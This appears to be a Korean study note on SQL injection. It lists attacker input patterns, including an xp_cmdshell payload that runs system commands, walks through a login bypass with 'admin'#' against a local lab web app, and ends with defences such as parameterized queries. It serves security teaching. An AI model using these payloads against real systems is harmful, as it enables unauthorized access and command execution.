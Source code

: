 
# SQL Injection

<center><img src = "https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png" ></center>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

<br>

## 공격자 패턴

1. 항상 참이 되는 입력<br>
예) `a' or 'a' = 'a`<br>
`select * from users where name = 'a' or 'a' = 'a'`<br>
-> 모든 데이터를 조회<br> 
-> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력<br>
예) `a'`<br>
`select * from users where name = 'a''`<br> 
-> 구문 오류를 유발<br>
-> 시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력<br>
예) hong' union select * from ... --<br>
select * from users where name = 'hong' <br>
union<br>
select * from ... --<br>

4. 시스템 명령어 실행하는 입력<br><br>
예) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- <br>
`select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '`<br>
-> 해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

<br>

## SQL Injection을 이용한 인증과정 우회

@Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~===

HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#'






## 방어 기법

방어기법
- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여
